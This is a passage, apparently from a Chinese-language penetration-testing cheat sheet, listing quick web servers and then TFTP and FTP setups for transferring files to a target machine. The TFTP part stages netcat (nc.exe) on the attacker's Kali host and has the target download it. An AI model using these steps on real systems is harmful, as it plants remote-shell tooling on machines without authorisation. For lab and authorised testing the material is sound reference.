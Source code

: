 - Erlang
    ```bash
    erl -s inets -eval 'inets:start(httpd,[{server_name,"NAME"},{document_root, "."},{server_root, "."},{port, 8000},{mime_types,[{"html","text/html"},{"htm","text/html"},{"js","text/javascript"},{"css","text/css"},{"gif","image/gif"},{"jpg","image/jpeg"},{"jpeg","image/jpeg"},{"png","image/png"}]}]).'
    ```

- busybox httpd
    ```bash
    busybox httpd -f -p 8000
    ```

- webfs
    ```bash
    webfsd -F -p 8000
    ```

- IIS Express
    ```bash
    C:\> "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000
    ```

### FTP

**tftp**

基于 udp,端口为 69

- **攻击端起 tftp**
    ```bash
    mkdir /tftp
    atftpd --daemon --port 69 /tftp
    cp /usr/share/windows-binaries/nc.exe /tftp/
    chown -R nobody /tftp
    ```

- **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

**ftp**

- **攻击端**
    ```bash
    apt-get install -y pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```
